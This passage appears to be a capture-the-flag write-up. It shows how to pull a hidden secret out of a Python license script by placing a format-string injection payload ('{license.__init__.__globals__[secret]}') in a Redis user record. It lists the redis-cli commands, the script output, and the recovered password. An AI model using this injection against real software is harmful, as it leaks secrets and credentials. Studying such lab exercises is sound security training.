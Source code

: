 ### Recover Secret

#### Strategy

The trickiest part here is realizing that I need to recover the hidden secret.

What is working to my benefit is that I control the other variables printed to the screen. [This Stack Exchange answer](https://security.stackexchange.com/a/239661) lays out really nicely how to attack this. [This post](https://levelup.gitconnected.com/when-you-should-not-use-f-strings-in-python-and-what-you-should-use-instead-3b89718757bd) goes into more detail as well.

Because I can control the template, then I can specify what happens in the `format`.

I’ll use my access to Redis to create a user where the last name is an injection like `{license.__init__.__globals__[secret]}`. That will make the format string look like:

```
microblog{username}{license.license}{first-name}{license.__init__.__globals__[secret]}

```

When that gets formatted, it should print the secret.

#### Execute

In Redis, I’ll start with a new user, rooted:

```
redis /var/run/redis/redis.sock> hset rooted username rooted
(integer) 1
redis /var/run/redis/redis.sock> hset rooted first-name "password:"
(integer) 1
redis /var/run/redis/redis.sock> hset rooted last-name "{license.__init__.__globals__[secret]}"
(integer) 1

```

I’ve made the first name `password:` to show easily where the secret starts. Running the script now prints the unencrypted key:

```
cooper@format:~$ sudo license -p rooted

Plaintext license key:
------------------------------------------------------
microblogrooted/%QIQ#0?qCGURyI8}RZrdh>#l^L`P7XbP#n@*'a*password:unCR4ckaBL3Pa$$w0rd

Encrypted license key (distribute to customer):
------------------------------------------------------
gAAAAABkYqXC2Xp3JGFVI__uSfLXpBzX84cyRMkAtN5tYqc3CgN8qGmQ70FWSBwn4RVPgKRVgfh0UqkoXO007-QouG9IaUKUygOQAr5TXp2ItrC5eANNlSpeyC37bi9KRF4nRCW4YmebU2_nr0HC8w9gIVfFo2XyjHkYlACttPbHmlQ61mc-8dE5CP6-bUWLBnIcmHqMXF06

```

The secret is `unCR4ckaBL3Pa$$w0rd`.
